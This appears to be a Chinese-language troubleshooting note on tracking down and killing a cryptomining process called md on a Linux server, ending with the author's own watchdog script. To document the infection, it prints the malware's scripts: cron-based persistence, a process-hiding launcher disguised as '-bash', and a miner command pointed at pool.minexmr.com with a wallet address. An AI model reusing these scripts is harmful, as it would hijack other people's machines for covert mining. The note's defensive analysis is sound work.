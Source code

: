 # 查杀挖矿机进程md

`[root@localhost]# top` 查看到md（占用cpu近100%）的PID 4444  
```[root@localhost]# cd /proc/4444
[root@localhost]# ll
-r--------. 1 Hazard Liulab        304 Nov 22 20:24 auxv
--w-------. 1 Hazard Liulab          0 Nov 22 20:24 clear_refs
-r--r--r--. 1 Hazard Liulab        414 Nov 22 20:24 cmdline
-rw-r--r--. 1 Hazard Liulab          3 Nov 22 20:24 comm
lrwxrwxrwx. 1 Hazard Liulab         15 Nov 22 20:24 cwd -> /lib/modules/.z
-r--------. 1 Hazard Liulab       3799 Nov 22 20:24 environ
lrwxrwxrwx. 1 Hazard Liulab         18 Nov 22 20:24 exe -> /lib/modules/.z/md
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fd
dr-x------. 2 Hazard Liulab       4096 Nov 22 20:24 fdinfo
-rw-------. 1 Hazard Liulab       1323 Nov 22 20:24 limits
-r--r--r--. 1 Hazard Liulab      16529 Nov 22 20:24 maps
-rw-------. 1 Hazard Liulab          0 Nov 22 20:24 mem
-r--r--r--. 1 Hazard Liulab       1489 Nov 22 20:24 mountinfo
-r--r--r--. 1 Hazard Liulab       1278 Nov 22 20:24 mounts
dr-x--x--x. 2 Hazard Liulab       4096 Nov 22 20:24 ns
-r--r--r--. 1 Hazard Liulab      10351 Nov 22 20:24 numa_maps
-r--r--r--. 1 Hazard Liulab 2823852032 Nov 22 20:24 pagemap
-r--r--r--. 1 Hazard Liulab          9 Nov 22 20:24 personality
lrwxrwxrwx. 1 Hazard Liulab          1 Nov 22 20:24 root -> /
-rw-r--r--. 1 Hazard Liulab       2403 Nov 22 20:24 sched
-r--r--r--. 1 Hazard Liulab     130825 Nov 22 20:24 smaps
-r--r--r--. 1 Hazard Liulab        233 Nov 22 20:24 stat
-r--r--r--. 1 Hazard Liulab         34 Nov 22 20:24 statm
-r--r--r--. 1 Hazard Liulab        936 Nov 22 20:24 status
-r--r--r--. 1 Hazard Liulab         67 Nov 22 20:24 syscall
```     
重点关注cmdline 和 exe,cwd 等  
cwd 指向 /lib/modules/.z (这个目录里放着挖矿的程序)  
exe指向 /lib/modules/.z/md (这个就是占用100%cpu的家伙)  
`[root@localhost]# cat cmdline`      
`-bash -acryptonight-os tratum+tcp://pool.minexmr.com:7777`   
这里看到这些字样，pool.minexmr.com 基本上跟挖矿有关了   
```
[root@localhost]# cd /lib/modules/.z/
[root@localhost .z]# ll
-rw-r--r--. 1 root root       0 Nov 23 15:40 $
-rwxr-xr-x. 1 root root     332 Oct  5 03:07 a
-rw-r--r--. 1 root root       1 Nov 23 18:07 bash.pid
-rwxr-xr-x. 1 1001 1001   15125 Feb 21  2016 h32
-rwxr-xr-x. 1 1001 1001  838583 Feb 21  2016 h64
-rwxr-xr-x. 1 root root 2979640 Jun 24 04:19 md
-rwxr-xr-x. 1 root root  168896 Sep 27 18:58 mdx
-rwxr-xr-x. 1 root root     533 Nov 19 22:41 run
-rw-r--r--. 1 root root    4833 Nov 23 16:24 screenlog.0
-rwxr-xr-x. 1 root root      24 Oct  5 02:45 x
```   
 h32,h64,md,mdx都是二进制文件  
 我们可以从a, run, x 三个文件里看到些端倪  
```
[root@localhost .z]# cat a 
pwd > dir.dir
dir=$(cat dir.dir)
echo "* * * * * $dir/upd >/dev/null 2>&1" > cron.d
crontab cron.d
crontab -l | grep upd
echo "#!/bin/sh
if test -r $dir/bash.pid; then
pid=\$(cat $dir/bash.pid)
if \$(kill -CHLD \$pid >/dev/null 2>&1)
then
exit 0
fi
fi
cd $dir
./run &>/dev/null" > upd
chmod u+x upd
rm -rf ../dwk.tgz
rm -rf ../z.sh
```
 cron.d 和 upd文件都没有找到，使用locate 命令，也没有搜索到，  
 使用kill 4444 之后，停几个小时，md会重新执行（即使给.z文件夹改名也没用，删除也没有用，还是会启动）  
  怀疑存在父进程，或定时任务，但是使用crontab -l 查看没有定时任务（无语）  
```
[root@localhost .z]# cat run  
#!/bin/bash

proc=`nproc`
ARCH=`uname -m`
HIDE="-bash"

if [ "$ARCH" == "i686" ];       then
        ./h32 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
elif [ "$ARCH" == "x86_64" ];   then
        ./h64 -s $HIDE ./md -a cryptonight -o stratum+tcp://pool.minexmr.com:7777 -u 45MmwEsgnjtHynmvDDV8pbZJibfhFVjtV9cTaFW4H8N9hNZDpMoYr7J1ZCE3wJAjWN9Dj3iASPxtjEKNZEriwJjx2evayFY -p x >>$
fi
echo $! > bash.pid
```
```
[root@localhost .z]# cat x
nohup ./a >>/dev/null &
```
-------------
 无奈只能曲线救国，写了一个守护进程，一旦看到md运行就kill掉它  
 其中ps -ef 结果的第三列是父进程，为了追综始作俑者。  
 一般命令行运行的程序好像父进程是1？  
```
#!/bin/sh
proc_name="^sh md$" 
file_name="/data2/lzc/watchMD.log"

echo `date` = NUM = PID > $file_name
while true
do
 num=`pgrep -x "$proc_name" | wc -l`
 if [ 0 -lt $num ]
 then
    pid=`pgrep -x "$proc_name"`
    ps -ef | grep $pid | grep -v grep >> $file_name
    echo == >> $file_name
    par=(`ps -ef | grep $pid | grep -v grep | cut -f3`)
    ps -ef | grep ${par[0]} | grep -v grep >> $file_name
    echo ==== >> $file_name
    kill $pid
    echo `date` =  $num  = $pid >> $file_name
 fi
 sleep 2
done  
```
